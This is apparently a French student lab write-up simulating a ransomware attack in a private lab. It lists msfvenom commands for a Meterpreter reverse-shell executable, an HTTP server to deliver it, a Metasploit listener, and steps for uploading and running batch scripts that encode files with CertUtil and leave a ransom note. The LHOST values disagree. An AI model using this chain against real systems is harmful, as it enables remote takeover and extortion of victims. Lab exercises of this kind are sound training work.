








# Lab : Analyse et Simulation d'une Attaque par Ransomware

## 1. Informations Générales & Environnement
* **Environnement de laboratoire :**
  * **Machine Attaquante (Kali Linux) :** Adresse IP `192.168.52.128`
  * **Machine Cible (Windows de test) :** Adresse IP `192.168.52.130`
* **Outils utilisés :** `msfvenom`, `Metasploit Framework` (`multi/handler`), `Python 3` (serveur HTTP), scripts de chiffrement/déchiffrement Batch (`.bat`).

## 2. Objectifs du TP
* Comprendre le cycle d'attaque d'un ransomware (accès initial, exécution du payload, chiffrement des données).
* Mettre en place un mécanisme de rétro-ingénierie/déchiffrement pour restaurer les fichiers.
* Analyser les bonnes pratiques de remédiation et de défense.

## 3. Étapes de Réalisation
### Étape 1 : Génération de la charge utile (Payload)
La première phase consiste à créer un exécutable malveillant d'accès initial à l'aide de l'outil `msfvenom`.

- **Commande sur Kali Linux :**
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.128 LPORT=4444 -f exe -o ransomware.exe
```

<u>**Paramètres clés :**</u>

- -p windows/meterpreter/reverse_tcp : Charge utile Windows avec retour de connexion (Reverse TCP) et console d'administration Meterpreter.

- LHOST=192.168.131.155 : Adresse IP de la machine attaquante (Kali Linux).

- LPORT=4444 : Port réseau d'écoute sur la machine attaquante.

- -f exe : Format du fichier de sortie (exécutable Windows).

- -o ransomware.exe : Nom attribué au fichier généré.


### Étape 2 : Transfert et exécution sur la machine cible via un serveur HTTP local.
Pour transférer le fichier exécutable vers la machine cible, un serveur web temporaire est démarré sur la machine attaquante.

- **Commande sur Kali Linux :**
```sh
python -m http.server 8080
```


### Étape 3 : Établissement de l'écouteur et prise de contrôle

Avant de déclencher le fichier sur la cible, un écouteur est configuré sur l'attaquant pour intercepter la connexion entrante.

- **Commande sur Kali Linux :**
```sh
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.52.128; set LPORT 4444; exploit"
```
Puis :
1. Sur la machine Windows cible (avec la protection antivirus désactivée), ouvrir le navigateur et accéder au serveur web de l'attaquant : `http://192.168.52.128:8080`.
2. Télécharger le fichier `ransomware.exe`.
3. Exécuter le fichier sur la machine Windows pour déclencher la charge utile.
4. Vérifier sur le terminal Kali que la session Meterpreter est ouverte avec succès.


### Étape 4 : Préparation des outils et énumération de la cible

1. **Sur Kali Linux :** copie des scripts batch de simulation vers le répertoire personnel :

```sh
cp *.bat /home/adja
```
2. **Sur la session Meterpreter :** navigation vers le Bureau de la machine victime et énumération des fichiers pour repérer la cible :


Le répertoire **secret** a été identifié avec succès sur le bureau de la victime. Il servira de conteneur cible pour la simulation de l'attaque par chiffrement.

### Étape 5 : Transfert du script de simulation vers la cible

Une fois le dossier cible identifié, nous procédons au téléversement de notre script `HARansom.bat` depuis notre machine d'attaque Kali vers le répertoire `secret` sur la machine Windows compromise.

1. **Se positionner dans le répertoire cible (sur la victime) :**
```text
cd C:\\Users\\adjaa\\Desktop\\secret
```
2. **Téléverser le script depuis Kali :**
```sh
upload /home/adja/HARansom.bat
```
 

Le script HARansom.bat a été transféré avec succès et se trouve désormais dans le répertoire cible de la machine compromise, prêt pour l'exécution.

### Étape 6 : Passage en mode shell et vérification du script

Une fois le script `HARansom.bat` téléversé, nous basculons dans l'invite de commande Windows native (CMD) pour préparer l'exécution du ransomware.

1. **Vérification du transfert :**
```text
ls
```


Le fichier HARansom.bat est bien présent aux côtés des documents sensibles, confirmant que le téléversement a réussi et que l'environnement de test est prêt.

2. **Passage en mode shell et vérification dans CMD :**

```text
shell
dir
```

Le shell Windows confirme que nous sommes positionnés dans C:\Users\adjaa\Desktop\secret et que le script HARansom.bat est bien présent parmi les fichiers cibles, prêt pour l'exécution.

### Étape 7 : Exécution du script de simulation de chiffrement

Une fois positionnés dans le dossier cible via le shell Windows, nous exécutons le script batch pour simuler le chiffrement des fichiers sensibles et la génération de la note de rançon.

1. **Exécution du script :**
```cmd
HARansom.bat
```
**Résultat :**
le script traite un par un les fichiers du répertoire en utilisant CertUtil pour encoder leur contenu, générant de nouveaux fichiers avec l'extension .enc, puis finalise l'opération en sauvegardant un avertissement dans note.txt

2. **Vérification du contenu du dossier après chiffrement :**
```cmd
dir
```

La liste des fichiers obtenue via l'invite de commande Windows confirme que tous les documents ont bien été renommés en fichiers .enc et que le fichier note.txt est présent dans le répertoire.

3. **Consultation de la note de rançon :**
en ouvrant le fichier `note.txt` généré sur la machine victime, on accède au message d'avertissement et aux instructions de l'attaquant.





Le message indique clairement que les fichiers ont été chiffrés et invite la victime à contacter l'adresse e-mail `hackahmed@hackahmed.com` pour obtenir le fichier de déchiffrement.

### Étape 8 : Déchiffrement après paiement de rançon

Supposons maintenant que la victime a payé la rançon. Nous allons déposer l'outil de déchiffrement dans le même dossier secret afin de restaurer les fichiers chiffrés.

1. **Téléversement de l'outil de déchiffrement :**
```sh
upload /home/adja/HADecrypt.bat
```

Le script HADecrypt.bat a été transféré avec succès (100% complété) sur la machine victime dans le répertoire cible.

2. **Exécution de l'outil de déchiffrement :**
apres passage en mode shell avec la commnde **shell**, on execute outil de déchiffrement.

```sh
HADecrypt.bat
```



3. **Vérification de la restauration des fichiers :**
```cmd
dir
```



les fichiers ont retrouvé leurs formats initiaux (les extensions .enc ont été retirées) et que l'intégrité du répertoire est rétablie après l'application de l'outil de déchiffrement.

4. **Validation visuelle sur le bureau de la machine Windows :**
en retournant sur l'explorateur de fichiers de la machine victime, on constate que tous les icônes et formats d'origine sont de nouveau accessibles et exploitables.



Les fichiers (images, documents Excel, texte et Word) ont retrouvé leurs aperçus et leurs extensions standard, confirmant la réussite complète de la procédure de déchiffrement.
